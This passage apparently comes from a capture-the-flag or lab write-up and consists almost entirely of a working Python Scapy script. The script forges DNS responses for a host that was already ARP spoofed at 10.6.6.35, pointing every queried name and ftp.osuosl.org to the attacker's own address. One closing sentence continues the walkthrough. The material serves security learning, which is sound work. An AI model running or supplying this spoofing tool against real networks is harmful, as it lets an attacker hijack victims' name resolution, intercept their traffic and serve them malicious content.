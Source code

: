 ```python dns_resp.py
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid

# creds:
#   https://thepacketgeek.com/scapy/building-network-tools/part-09/
#   https://www.cs.dartmouth.edu/~sergey/netreads/local/reliable-dns-spoofing-with-python-scapy-nfqueue.html

# Our eth0 IP
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])

# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.6.35"
us = ni.ifaddresses('eth0')[ni.AF_LINK][0]['addr']
them = "4c:24:57:ab:ed:84"

def handle_dns_request(packet):
    eth = Ether(src=us, dst=packet[Ether].src)                  # need to replace mac addresses
    ip  = IP(dst=packet[IP].src, src=packet[IP].dst)            # need to replace IP addresses
    udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport) # need to replace ports
    dns = DNS(
        id=packet[DNS].id,
        qd=packet[DNS].qd,
        aa=1, qr=1,
        ancount=2,
        an=DNSRR(rrname=packet[DNSQR].qname, rdata=ipaddr)/DNSRR(rrname="ftp.osuosl.org",rdata=ipaddr)
    )
    dns_response = eth / ip / udp / dns
    sendp(dns_response, iface="eth0")

def main():
    berkeley_packet_filter = " and ".join( [
        "udp dst port 53",                              # dns
        "udp[10] & 0x80 = 0",                           # dns request
        ] )
    # sniff the eth0 int without storing packets in memory and stopping after one dns request
    while True:
        sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=1)
if __name__ == "__main__":
    main()
```

Great, so once we got the DNS answers to work fine, the next piece of the puzzle becomes clear using `tcpdump` again.
